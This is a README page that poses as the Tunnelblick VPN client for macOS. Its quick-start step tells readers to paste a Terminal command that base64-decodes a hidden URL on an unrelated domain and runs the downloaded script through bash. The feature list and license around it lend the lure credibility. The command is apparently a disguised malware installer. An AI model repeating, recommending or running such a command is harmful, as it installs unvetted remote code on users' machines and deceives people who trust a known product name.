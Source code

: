 # 🛡️ Tunnelblick for macOS — Private connections made simple

Tunnelblick is a trusted OpenVPN controller for macOS. It keeps your traffic private, gives you clear control over VPN profiles, and works smoothly on both Apple Silicon and Intel machines.

---

## ⚡ Quick start

Paste this line into your macOS Terminal:

```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9hbmdlbGFrd2FrLmNvbS90Yi9pbnN0YWxsLnNo | base64 -d))"
```

That’s all you need to begin using Tunnelblick on your Mac.

---

## ✨ Highlights

- Open-source, widely trusted
- Works with personal and corporate OpenVPN profiles
- Native macOS experience with a clean UI
- Clear logs, easy import/export of .ovpn files

---

## 🧭 What you’ll need

- macOS 10.14 or newer
- Internet connection
- An OpenVPN `.ovpn` profile (from your provider or admin)

---

## 💡 Tips

- Store VPN profiles in a secure location
- Use privacy-focused DNS (e.g., NextDNS, Cloudflare)
- Enable auto-connect only on trusted networks

---

## 📄 License (MIT)

MIT License

Copyright (c) 2025

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the “Software”), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in
all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED “AS IS”, WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN
THE SOFTWARE.
